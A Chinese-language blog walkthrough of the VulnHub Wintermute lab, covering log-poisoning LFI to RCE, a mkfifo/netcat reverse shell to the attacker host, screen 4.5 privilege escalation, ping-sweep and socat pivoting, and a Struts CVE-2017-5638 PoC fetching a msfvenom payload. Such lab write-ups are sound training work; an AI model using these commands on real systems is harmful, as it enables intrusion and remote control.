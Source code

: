 ```yaml
---
layout: post
title: LFI-GetShell->端口转发->Getshell
---
```


> Wild animals never kill for sport. Man is the only one to whom the torture and death of his fellow creatures is amusing in itself.——James Anthony Froude

先附上wintermute[下载地址](https://download.vulnhub.com/wintermute/Wintermute-v1.zip)  

简单介绍下wintermute ：**A new OSCP style lab involving 2 vulnerable machines**，有两个靶机, 第一个靶机是入口，有两个网卡，起到pivoiting的作用，第二个靶机有一个网卡，需要先入侵进第一个后通过第一个靶机才能和第二个靶机进行交流。


**_Victim1: 192.168.56.102_**
![图片](/pics/1586401635855.jpg)

80端口没有可利用，3000端口是ntopng流量监控平台通过默认用户名和密码登陆后可以看到一个奇怪的目录。
![](/pics/1586402049129.jpg)

进入后发现此页面
![](/pics/1586402845054.jpg)

可以推断?bolo这个参数后面的值是日志文件，而且根据提示此日志文件的后缀名是.log，但是url中并不需要输入.log后缀，可以通过html页面中进一步确定，说明bolo.php会自动在值的后面加入log后缀，进一步fuzz得出用%00这种空字节无法绕过，所以../../../../etc/passwd%00的方法无效。
![](/pics/1586403125152.jpg)

nmap端口显示端口25 Postfix smtpd开放，经过查询得知postfix默认log文件位于/var/log/mail.log中，所以是不是可以用污染邮件日志的方法来达到命令注入呢。

![](/pics/1586403587352.jpg)
![](/pics/1586403887017.jpg)
![](/pics/1586403890295.jpg)

通过tcpdump监听确定可以RCE后，直接用```mkfifo /tmp/p; /bin/sh 0</tmp/p | nc 192.168.56.1 1234 1>/tmp/p```来得到reverse shell, 虽然麻烦了点，但是一劳永逸，防止nc版本不对没有-e的选项。

1. 进入shell后通过查看suid文件 find / -user root -perm 4000 2>/dev/null得到存在screen 4.5
2. searchsploit screen 4.5
3. 通过exploit得到root后
4. 因为没有nmap，所以要自己编写ping sweep来查看第二个网卡存在的victim2
5. ping sweep必须要使用&进行background操作，不然速度太慢，具体的脚本如下  
for i in $(seq 1 255); do (ping -c 1 192.168.57.$i | grep "bytes from" &);done
6. 得到ip后继续写脚本查看开放的端口
nc -z -w 1 -n -v $ip 1-65535 
7. 得到三个端口开放后用可以编写脚本来查看banner情况
echo "QUIT" | grep nc $ip $port $port $port
8. 然后利用socat进行端口转发
socat tcp-listen:$port,fork tcp:$victim1:$port & 
socat tcp-listen:$port,fork tcp:$victim1:$port &
socat tcp-listen:$port,fork tcp:$victim1:$port &
9. 因为rce利用的是java.lang.Runtime@getRuntime所以管道符号不能使用,要用wget来进行下载，不能用nc
10. attaker上启动nc -lvp 1234准备监听
11. attacker上同时启动服务器，准备好msfvenom写好的reverse shell（这个reverse shell的LHOST是victim1)
11. victim1上转发代理，socat tcp-listen:1234,fork tcp:$attack:1234 &
12. 然后用attacker执行https://github.com/mazen160/struts-pwn此poc（CVE-2017-5638），注意url应该写victim1的因为已经做了转发，从victim1上下载attacker上准备好的reverse shell.
13. Over...
